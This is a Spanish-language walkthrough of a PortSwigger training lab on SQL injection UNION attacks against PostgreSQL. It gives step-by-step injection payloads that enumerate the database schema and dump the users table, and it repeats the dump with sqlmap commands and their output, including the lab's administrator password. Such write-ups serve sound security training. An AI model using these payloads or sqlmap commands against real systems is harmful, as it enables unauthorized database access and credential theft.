 ```yaml
---
title: ""
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-15 12:39:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving data from other tables
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-9/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-9/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-9/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-9/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-9/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información. En este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle`, debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-9/image_6.png)

`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-9/image_7.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-9/image_8.png)

`Listamos` todos los `esquemas` para la `base de datos actual`

```
/filter?category='+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-9/image_9.png)

`Listamos` el `nombre` de las `tablas` del esquema `public`

```
/filter?category='+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-9/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-9/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+username,password+from+users--+-+
```

![](/assets/img/SQLI-Lab-9/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+----------+
| products |
| users    |
+----------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users -C username,password --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | 9ti7sbwit1xxfn9k0bev |
| wiener        | mlcv6e5h7scs5tzvmhmq |
| carlos        | 4k5cdgfdtrvmg2922kev |
+---------------+----------------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-9/image_13.png)
